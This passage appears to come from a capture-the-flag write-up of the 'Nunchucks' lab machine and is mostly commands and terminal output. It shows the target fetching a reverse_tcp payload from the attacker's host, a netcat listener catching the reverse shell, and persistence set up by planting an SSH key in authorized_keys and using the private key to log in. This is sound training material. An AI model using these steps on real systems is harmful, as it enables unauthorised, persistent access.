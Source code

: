 ```bash
10.10.11.122 - - [04/Jun/2022 12:11:33] "GET /Exploits/reverse_tcp HTTP/1.1" 200 -
```
Listening shell:
```bash
❯ nc -nlvp 3333
Connection from 10.10.11.122:57466
bash: cannot set terminal process group (1006): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ whoami 
whoami
david
```
Now let's ensure our persistence by creating some ssh keys:
```bash
david@nunchucks:~$ mkdir .ssh
mkdir .ssh
david@nunchucks:~$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/david/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/david/.ssh/id_rsa
Your public key has been saved in /home/david/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:HgtB4bIsoTK1DLSsSjOTipjMgbYuuGL18/FRC5X0TJs david@nunchucks
The key\'s randomart image is:
+---[RSA 3072]----+
| .    o.   . .   |
|o .  o    . = o  |
|.oo . o    o E   |
|o=.+ o .  .      |
|*O+ o . S. .     |
|@o*o   o oo .    |
|B+. .  .o. .     |
|=.   o  o .      |
|=o    o. .       |
+----[SHA256]-----+
david@nunchucks:~$ cd .ssh      
cd .ssh
david@nunchucks:~/.ssh$ cp id_rsa.pub authorized_keys
cp id_rsa.pub authorized_keys
david@nunchucks:~/.ssh$ cat id_rsa
```
Now, we can copy the `id_rsa` file into `Results/id_rsa` and achieve ssh connection:
```bash
❯ chmod 600 Results/id_rsa
❯ ssh -i Results/id_rsa david@10.10.11.122
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-86-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat  4 Jun 10:17:21 UTC 2022

  System load:             0.0
  Usage of /:              49.2% of 6.82GB
  Memory usage:            50%
  Swap usage:              0%
  Processes:               234
  Users logged in:         0
  IPv4 address for ens160: 10.10.11.122
  IPv6 address for ens160: dead:beef::250:56ff:feb9:766b
```